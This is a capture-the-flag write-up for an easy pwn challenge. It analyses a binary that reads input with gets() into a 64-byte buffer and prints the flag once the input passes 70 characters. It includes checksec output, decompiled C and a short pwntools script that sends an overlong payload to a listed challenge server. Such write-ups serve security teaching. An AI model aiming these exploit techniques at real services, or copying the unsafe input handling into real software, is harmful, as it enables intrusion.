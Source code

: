 ### Challenge Details
- **Category**: Pwn
- **Difficulty**: Easy
- **access:**:  nc 139.59.162.57 1656

Behind the ancient Walls of Paradis lie secrets that humanity has forgotten. For a century, the walls have protected what remains of civilization from the threat that lies beyond... or so they say.

But the walls are not as impenetrable as they seem. Those who speak with enough conviction, whose words carry enough weight, might find that even stone and mortar cannot contain the truth forever.

Will your oath to the Scout Regiment be powerful enough to reveal what lies hidden? Or will you remain ignorant, safe within the confines of the walls?

### Requirements
- Knowledge of the boundary between safety and revelation
- The will to speak beyond normal constraints
- Courage to face what lies beyond the walls

![Challenge GIF](https://media.giphy.com/media/zwPRprvrP4Lm0/giphy.gif?cid=ecf05e47ooj7qahuuvy7jb8q1rg05e58t1b2gixaiu2tqyb2&ep=v1_gifs_related&rid=giphy.gif&ct=g)

---

*Author: xtle0o0*

---
## Binary Analysis

First, let's examine the binary using standard tools:

```
$ file titan
titan: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f268da2257cbe58ba6bed33fa9e5369e5afe9ab0, for GNU/Linux 3.2.0, not stripped

$ checksec titan
[*] '/home/kali/Desktop/citeflag/pwn/TitanBreach/titan'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

We can see the binary has no stack canary protection and has executable stack segments, making it potentially vulnerable to buffer overflow attacks.

## Vulnerability Analysis

Since we were only provided with the binary, we need to decompile it to understand its functionality. Using Ghidra, we can inspect the `vulnerable_function`:

![image](../../assets/{25363805-0B00-430C-A14A-5B2F7A8F39E2}.png)

```c
void vulnerable_function(void)
{
  size_t sVar1;
  char local_48 [64];
  
  puts(&DAT_004021a0);
  puts(&DAT_00402228);
  puts(&DAT_00402260);
  puts(&DAT_00402100);
  printf("Your oath: ");
  gets(local_48);
  sVar1 = strlen(local_48);
  if (sVar1 < 0x46) {
    printf("You said: %s\n",local_48);
    puts("Your oath is not strong enough to breach the walls...");
  }
  else {
    printf("You said: %s\n",local_48);
    puts("Your oath is too powerful! The walls are crumbling!");
    print_flag();
  }
  return;
}
```

From this decompiled code, we can identify a classic buffer overflow vulnerability:

1. A buffer `local_48` is created with a size of 64 bytes
2. The program uses `gets()` to read user input into this buffer without any boundary checking
3. The function then checks if the length of the input is less than `0x46` (70 in decimal)
4. If the input length is 70 or more, it calls `print_flag()` which displays the flag

The vulnerability is in the use of `gets()`, which is notorious for being unsafe because it doesn't perform any boundary checking. This function will continue reading input until a newline character is encountered, regardless of the destination buffer's size.

## Exploitation

The exploitation is straightforward in this case:

1. The program allocates a 64-byte buffer for our input
2. It uses `gets()` to read our input, which doesn't check buffer boundaries
3. It then checks if our input length exceeds 70 characters (0x46 in hex)
4. If it does, the program calls `print_flag()` function

Unlike more complex buffer overflow exploits that require overwriting the return address or other memory manipulation, this challenge simply requires us to provide an input longer than 70 characters to trigger the flag reveal condition.

## Solution

The solution, as implemented in `solve.py`, uses pwntools to:

1. Connect to the challenge server
2. Create a payload of 80 'A' characters (beyond the 70-character threshold)
3. Send this payload when prompted for the oath
4. Receive and display the flag

```python
#!/usr/bin/env python3
from pwn import *

# Set up pwntools
context.log_level = 'info'

# Connection details
HOST = '139.59.162.57'
PORT = 1656

def exploit():
    # Connect to challenge
    try:
        conn = remote(HOST, PORT)
        
        # Create payload - send 80 characters to ensure we exceed 70 characters
        payload = b'A' * 80
        
        # Send payload when prompted
        conn.recvuntil(b"Your oath: ")
        conn.sendline(payload)
        
        # Receive response
        conn.interactive()
    except Exception as e:
        error(f"Error occurred: {str(e)}")

if __name__ == "__main__":
    exploit()
```
![image](../../assets/{A1CDC5F8-7734-4274-9D56-B0D7C3E2140C}.png)

## Conclusion

This challenge demonstrates a basic buffer overflow vulnerability. While it doesn't require exploiting memory corruption to hijack program execution flow, it introduces the concept of buffer boundaries and the dangers of unchecked input functions like `gets()`.

The challenge highlights an important security concept - always validate input length and use secure functions that perform boundary checking to prevent buffer overflows.

